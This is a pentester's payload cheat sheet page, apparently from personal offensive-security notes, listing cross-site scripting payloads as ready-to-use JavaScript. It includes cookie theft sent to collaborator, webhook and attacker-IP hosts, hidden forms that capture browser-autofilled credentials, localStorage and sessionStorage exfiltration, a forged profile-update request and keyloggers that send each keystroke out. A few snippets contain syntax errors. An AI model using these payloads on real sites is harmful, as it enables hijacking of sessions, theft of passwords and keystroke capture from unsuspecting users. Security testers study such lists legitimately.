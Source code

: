 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Payloads

{% hint style="info" %}
[XSS Filter Evasion Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS\_Filter\_Evasion\_Cheat\_Sheet.html) (OWASP)
{% endhint %}

## Stealing Cookies

{% tabs %}
{% tab title="<img>" %}
```javascript
<img src="http://localhost?c='+document.cookie+'" />
```
{% endtab %}

{% tab title="fetch (1)" %}
```javascript
fetch("http://localhost?c="+document.cookie);
```
{% endtab %}

{% tab title="Collaborator" %}
```javascript
// collaborator payload
<script>
    fetch('https://705jjd45qk9l1pb4rhns097xgomfa5yu.oastify.com', 
    {
        method: 'POST',
        mode: 'no-cors',
        body:document.cookie
    });
</script>
```
{% endtab %}

{% tab title="Webhook" %}
{% code overflow="wrap" %}
```javascript
<script>var i = new Image; i.src="https://webhook.site/094ef770-e736-4b31-a3cb-34be690ff1b9/?"+document.cookie</script>
```
{% endcode %}
{% endtab %}

{% tab title="external" %}
{% code title="xss.js" %}
```javascript
// save the value of the cookie in a variable
let cookie = document.cookie
// URL-encode the variable
let encodedCookie = encodeURIComponent(cookie)
// make a GET request to our attacker machine exfiltrating the cookie
fetch("http://192.168.45.214/exfil?data=" + encodedCookie)
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Autofilled Credentials

{% tabs %}
{% tab title="createForm.js" %}
{% code title="createForm.js" overflow="wrap" %}
```javascript
// create the input elements
let usernameField = document.createElement("input")
usernameField.type = "text"
usernameField.name = "username"
usernameField.id = "username"

let passwordField = document.createElement("input")
passwordField.type = "password"
passwordField.name = "password"
passwordField.id = "password"

// append the elements to the body of the page
document.body.appendChild(usernameField)
document.body.appendChild(passwordField)

// exfiltrate as needed (we need to wait for the fields to be filled before exfiltrating the information)
setTimeout(function() {
 console.log("Username:", document.getElementById("username").value)
 console.log("Password:", document.getElementById("password").value)
}, 1000);
```
{% endcode %}
{% endtab %}

{% tab title="savedCreds.js" %}
{% code title="savedCreds.js" %}
```javascript
// save the body of the document into a var
let body = document.getElementsByTagName("body")[0]

// create the username element
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";

// create the password element
var p = document.createElement("input");
p.type = "password";
u.style.position = "fixed";
//u.style.opacity = "0";

// append elements to the body
body.append(u)
body.append(p)

// set a GET request after a 5 second timeout
setTimeout(function(){
    fetch("http://192.168.45.214/k?u=" + u.value + "&p=" + p.value)
    }, 5000);
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Local Secrets

{% tabs %}
{% tab title="Local Storage" %}
```javascript
let data = JSON.stringify(localStorage)
let encodedData - encodeURIComponent(data)
fetch("http://<attackerIP>/exfil?data=" + encodedData)
```
{% endtab %}

{% tab title="Session Storage" %}
```javascript
let data = JSON.stringify(sessionStorage)
let encodedData - encodeURIComponent(data)
fetch("http://<attackerIP>/exfil?data=" + encodedData)
```
{% endtab %}
{% endtabs %}

## Session Riding

{% tabs %}
{% tab title="XMLHttpRequest" %}
```javascript
let xhr = new XMLHttpRequest();
xhr.open('POST','http://localhost/updateprofile',true);
xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
xhr.send('email=updated@email.com’);
```
{% endtab %}
{% endtabs %}

## Keylogging

{% tabs %}
{% tab title="Log keypresses" %}
```javascript
document.onkeypress = function(e) {
 get = window.event ? event : e
 key = get.keyCode ? get.keyCode : get.charCode
 key = String.fromCharCode(key)
 console.log(key)
}
```
{% endtab %}

{% tab title="Fetch keypresses" %}
{% code title="keylogger.js" %}
```javascript
function logKey(event){
    fetch("http://192.168.45.214/k?key=" + event.key)
}
// for each keypress, execute the callback function
document.addEventListener('keydown', logKey);
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Remote Resources

{% tabs %}
{% tab title="fetch" %}
```javascript
fetch('http://localhost/endpoint’)
```
{% endtab %}

{% tab title="<img>" %}
```javascript
<img src='http://localhost/file' />
<img src='x' onerror='http://localhost/file' />
<img src="x" onerror="window.location.href='https://localhost/file'">
```
{% endtab %}

{% tab title="<script>" %}
```javascript
<script src='http://localhost/file'></script>
```
{% endtab %}
{% endtabs %}

